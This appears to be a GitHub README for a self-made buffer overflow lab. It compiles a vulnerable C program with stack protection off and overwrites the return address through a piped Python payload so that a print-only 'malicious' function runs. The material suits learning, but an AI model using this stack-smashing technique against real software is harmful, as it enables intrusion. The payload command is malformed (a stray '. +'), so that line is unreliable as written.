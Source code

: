 # BufferOverflow
Writing a buffer overflow vulnerability and exploiting it.

# Quick Start
1. Compile the c file. Disabling stack protection and compiling for a 32 bit machine.

  `$ gcc -fno-stack-protector -m32 vulnerability.c`

2. Detrmine the address of the malicious function on your machine. You can do this in two ways.

  a. Easy method. run `./a.out` and it will print the address for you.<br>
  b. Cooler method. run `objdump -d a.out | less` and find the address manually.
  
3. Determine if you are on a Big Endian or Little Endian Machine. You can probably google this.

4. Run the injection using your malicious address in the proper LE/BE order
  
  `python -c 'print "a"*32 . + "\xa0\x84\x04\x08"' | a.out`
  
  Note: If you are on a LE machine, inject a LE ordered address. Otherwise, inject a BE ordered address.
  My malicious address was 080484a0 on a LE macine.
  



# Debugging
The malicious print statement was not printing until I flushed the printf buffer by adding a new line character '\n'.
If you are messing around with this, don't forget to flush the buffer or will just receive seg faults and not feel like a hacker :(

